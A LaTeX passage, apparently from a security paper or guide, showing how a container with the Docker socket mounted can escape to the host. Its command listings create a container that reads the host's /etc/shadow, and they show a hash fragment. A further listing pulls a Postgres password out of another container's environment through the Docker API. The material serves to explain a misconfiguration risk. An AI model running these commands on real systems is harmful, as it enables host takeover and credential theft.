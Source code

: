 \begin{lstlisting}
(host)$ docker run -it --rm -v /var/run/docker.sock:/var/run/docker.sock ubuntu /bin/bash
(cont)# curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d '{"Image":"ubuntu:latest","Cmd":["cat", "/host/etc/shadow"],"Mounts":[{"Type":"bind","Source":"/","Target":"/host"}]}' "http://localhost/containers/create?name=escape"
...
(cont)# curl -XPOST --unix-socket /var/run/docker.sock "http://localhost/containers/escape/start"
(cont)# curl --output - --unix-socket /var/run/docker.sock "http://localhost/containers/escape/logs?stdout=true"
...
admin:$6$VOSV5AVQ$jHWxAVAUgl...:18142:0:99999:7:::
...
(cont)# curl -XDELETE --unix-socket /var/run/docker.sock "http://localhost/containers/escape"
\end{lstlisting}

\subsubsection{Finding Sensitive information}

When a container has access to \lstinline{/var/run/docker.sock} (i.e. \lstinline{/var/run/docker.sock} is added as volume inside the container), it cannot only start new containers but it can also look at the configuration of existing containers. This configuration might contain sensitive information (e.g. passwords in the environment variables).

\hfill

Lets start a Postgres\footnote{\url{https://www.postgresql.org/}} database inside a Docker. From the documentation of the Postgres Docker image\footnote{\url{https://hub.docker.com/_/postgres}}, we know that we can provide a password using the \lstinline{POSTGRES_PASSWORD} environment variable. If we have access to another container which has access to the Docker API, we can read that password from the environment variable.

\begin{lstlisting}[caption={Example extract secrets using the Docker API},captionpos=b]
(host)$ docker run --name database -e POSTGRES_PASSWORD=thisshouldbesecret -d postgres
...
(host)$ docker run -it --rm -v /var/run/docker.sock:/var/run/docker.sock:ro ubuntu:latest bash
(cont)# apt update
...
(cont)# apt install curl jq
...
(cont)# curl --unix-socket /var/run/docker.sock -H 'Content-Type: application/json' "http://localhost/containers/database/json" | jq -r '.Config.Env'
[
  "POSTGRES_PASSWORD=thisshouldbesecret",
  ...
]
\end{lstlisting}

